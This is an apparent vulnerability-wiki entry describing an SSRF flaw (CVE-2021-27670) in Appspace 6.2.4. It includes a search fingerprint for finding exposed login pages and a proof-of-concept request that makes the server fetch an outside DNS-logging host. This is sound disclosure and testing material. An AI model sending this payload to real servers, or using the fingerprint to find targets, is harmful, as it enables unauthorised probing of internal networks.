 # Appspace jsonprequest SSRF vulnerability CVE-2021-27670

## Vulnerability Description

There is a vulnerability in Appspace 6.2.4, allowing server request forgery through the api/v1/core/proxy/jsonprequest interface, endangering system security.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Appspace 6.2.4</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Sign-in-to-Appspace-Core"</span>

## Vulnerability reappears

The login page is

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488521981-cac80156-754a-4388-9f0e-f1b32a25bdca.png)

Verify POC

```python
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://lo2z02.dnslog.cn
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488586297-b2ee6e6c-6739-494c-ad7f-39eeb43a486e.png)